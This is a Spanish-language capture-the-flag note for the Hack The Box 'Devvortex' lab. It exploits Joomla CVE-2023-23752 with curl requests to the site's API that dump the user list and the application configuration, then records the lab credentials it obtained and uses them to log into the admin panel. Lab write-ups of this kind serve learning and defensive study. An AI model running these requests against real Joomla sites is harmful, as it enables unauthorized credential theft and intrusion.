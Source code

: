 #CVE-2023-23752 #enumeracionversiondejoomla 

----------
## Primero tenemos que hacer la [[Enumeracion version de joomla]].
La vulnerabilidad es para la version 4.2.6 joomla

--------

Investigando un poco encontramos el [[CVE-2023-23752]] y guiandonos del repositorio de [Youns92](https://github.com/Youns92/Joomla-v4.2.8---CVE-2023-23752)
Usamos estos payloads para sacar informacion:

```shell
curl -s "http://dev.devvortex.htb/api/index.php/v1/users?public=true" | jq '.data[] | select(.type == "users") | {id: .attributes.id, name: .attributes.name, username: .attributes.username, email: .attributes.email, groups: .attributes.group_names}'
```

![[Devvortex15.png]]
Este no nos da ninguna informacion relevante

Y este otro payload si nos da informacion que nos sirve

```shell
curl -s "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true" | jq '.data[] | select(.type == "application") | .attributes'
```


![[Devvortex16.png]]
![[Devvortex17.png]]

Obtenemos las credenciales:
lewis:P4ntherg0t1n5r3c0n##

Y ahora entramos al panel de logeo con las credenciales que dumpeamos

![[Devvortex18.png]]
